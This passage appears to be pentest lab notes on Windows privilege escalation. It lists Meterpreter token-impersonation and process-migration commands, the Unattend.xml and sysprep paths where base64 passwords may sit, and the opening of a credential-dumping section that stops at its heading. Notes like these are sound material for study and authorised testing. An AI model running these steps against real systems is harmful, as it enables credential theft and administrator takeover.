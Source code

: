 ```sh
load incognito
list_tokens -u
```

```
 Delegation Tokens Available
 ========================================
 ATTACKDEFENSE\Administrator
 NT AUTHORITY\LOCAL SERVICE
 
 Impersonation Tokens Available
 ========================================
 No tokens available
```

```sh
impersonate_token <token_name>
# Ex: impersonate_token ANYTHING\\Administrator 
# Note: the two backslashes
```

```sh
# You may need to migrate process to a <user> process
getpid
ps     
# PID: 2948 | PPID: 2036 NAME: explorer.exe | ARCH: X64 | SESSION:1 | USER: ANYTHING\Administrator | PATH: C:\Windows\explorer.exe

# Migrate process
migrate 2948
```

### <mark style="color:yellow;">Password in configuration file (Unattend.xml)</mark>

An answer file is an XML-based file that contains setting definitions and values to use during Windows Setup. Answer files (or Unattend files) are used by Administrators when they are setting up fresh images as it allows for an automated setup for Windows systems.

```
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.xml
C:\Windows\system32\sysprep\sysprep.xml
```

Extract password and decode it (from base64)

### <mark style="color:yellow;">Credential Dumping (Mimikatz - Kiwi - Hashdump)</mark>

Prerequisites: User must be a member a local Administrators.

**(1) hashdump (Metasploit - Meterpreter)**
